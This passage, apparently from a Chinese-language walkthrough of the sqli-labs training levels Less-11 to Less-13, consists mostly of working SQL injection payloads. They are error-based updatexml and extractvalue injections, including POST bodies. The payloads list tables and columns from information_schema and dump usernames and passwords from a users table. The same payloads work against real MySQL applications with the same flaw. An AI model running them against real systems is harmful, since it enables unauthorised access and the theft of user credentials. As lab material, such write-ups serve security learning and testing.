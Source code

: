 ![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144921759.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144921759.png)

- 获取 security 库的所有表，

`a' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema="security"),1,31)),3) -- a`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144922110.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144922110.png)

- 获取 users 表的所有字段，

`a' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),1,31)),3) -- a`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144922230.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144922230.png)

- 获取数据库的用户名和密码：
  
  `a' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1)-- a`
  
  `a' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)-- a`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144922354.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144922354.png)

![https://i-blog.csdnimg.cn/img_convert/246ebae065f3f4295d3462e78923e8db.png](https://i-blog.csdnimg.cn/img_convert/246ebae065f3f4295d3462e78923e8db.png)

## Less-12

同Less-11，POST注入，`")`闭合

## Less-13

`')`闭合，报错注入

- 判断报错条件

`a') and updatexml(1,0x7e,3) -- a`

- 查询数据库名

```
uname=1')union select 1,extractvalue(1,concat(0x7e,(select database())))-- a&passwd=123&Submit=Submit
```

- 表名

```
uname=123')union select 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')))-- a&passwd=123&Submit=Submit
```

- 列名

```
uname=123')union select 1,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')))-- a&passwd=123&Submit=Submit
```
